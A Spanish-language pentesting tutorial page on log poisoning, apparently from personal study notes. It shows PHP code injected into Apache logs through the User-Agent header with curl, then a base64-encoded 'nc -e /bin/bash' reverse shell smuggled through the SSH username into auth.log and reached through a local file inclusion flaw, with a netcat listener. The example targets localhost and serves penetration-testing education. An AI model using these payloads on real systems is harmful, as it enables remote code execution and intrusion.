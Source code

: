 ```yaml
---
title: 'Log Poisoning'
publishedAt: '2024-11-18'
group: 'tecnicas_pentesting'
groupOrder: 2
---
```


# Log Poisoning

Se trata de ejecutar comandos que luego se vayan a ver en los logs.

Por ejemplo, si accedemos a /var/log/https/access_log podemos ver todos los logs de lo que se ha ido ejecutando en apache

![Captura del cat de /var/log/https/access_log](/images/log-poisoning-1.png)

También puede ser /var/log/apache/access.log

Si encontramos la vulnerabilidad del LFI, podemos ver los logs directamente en la página (poniendo la ruta del archivo)

![Captura del LFI en la web de /var/log/https/access_log](/images/log-poisoning-2.png)

Como una de las cosas que se listan en estos logs es el user agent de las peticiones que hacemos y nosotros podemos definir cuál es el user agent, podemos hacer una petición con curl que ejecute código para luego poder ver el resultado en los logs.

```bash
curl -H "User-Agent: <?php system('whoami'); ?>" "http://localhost/example.php"
```

Y como resultado nos devolveria el fichero de logs www-data en lugar del user agent

Otro ejemplo de logs es /var/log/auth.log que contiene a todos los usuarios que se intentan autenticar en el sistema

Ejecutando

```
ssh usuariodeprueba@127.0.0.1
```

con cualquier contraseña (ya que no existe el usuario y no se va a poder acceder) y podremos ver el intento de autenticación en /var/log/auth.log

Para explotar esto, podemos intentar ejecutar comandos en el campo del usuario haciendo

```bash
ssh '<?php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDMK | base64 -d | bash"); ?>'@127.0.0.1
```

Donde bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDMK es el resultado de ejecutar en consola

```bash
echo "nc -e /bin/bash 127.0.0.1 443" | base64; echo
```

Que lo que hace es ejecutar bash en el puerto 443 de la ip que le pasamos (que en este caso es localhost porque estamos haciendo pruebas en local)

Mientras tanto, tenemos ejecutado en otra consola

```bash
nc -nlvp 443
```

para estar escuchando en el puerto 443 y ganar acceso con el reverse shell.